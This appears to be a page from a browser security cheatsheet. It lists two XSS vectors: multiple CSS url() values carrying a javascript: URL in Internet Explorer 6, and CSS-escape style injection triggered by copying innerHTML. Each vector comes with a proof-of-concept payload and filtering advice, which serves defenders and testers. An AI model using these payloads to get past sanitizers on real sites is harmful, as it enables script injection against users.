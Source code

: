 reporter：LeverOne

### Multiple CSS "url()" values in IE 6#93test

Internet Explorer supports multiple "url()" values all of which can contain payload. The delimiter between the "url()" values should be a whitespace character ("\x20" in the given example).

```
<div style="list-style:url(http://foo.f)\20url(javascript:alert(1));">X</div> 
```

Make sure in case the user is allowed to submit CSS it is being filtered and whitelisted correctly to avoid attacks via multiple backgrounds.

*   internet explorer 6.0

*   xss

*   css
*   internet explorer
*   trick
*   url

reporter：LeverOne

### Style injection when copying innerHTML (3)#98test

The example shows that Internet Explorer and Mozilla Firefox automaticaly decode CSS-encoding if the harmless markup is copied using innerHTML.

```
<div id=d><div style="font-family:'sans\27\2F\2A\22\2A\2F\3B color\3Ared\3B'">X</div></div> <script>with(document.getElementById("d"))innerHTML=innerHTML</script> 
```

Be very careful when handling user generated HTMl in the DOM later on. The innerHTML property does not always contain what it's supposed to.

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   firefox 2.x

*   firefox 3.6.28

*   xss

*   javascript
*   internet explorer
*   script
*   dom
*   innerhtml
*   css

*   #59

*   #97
*   #128
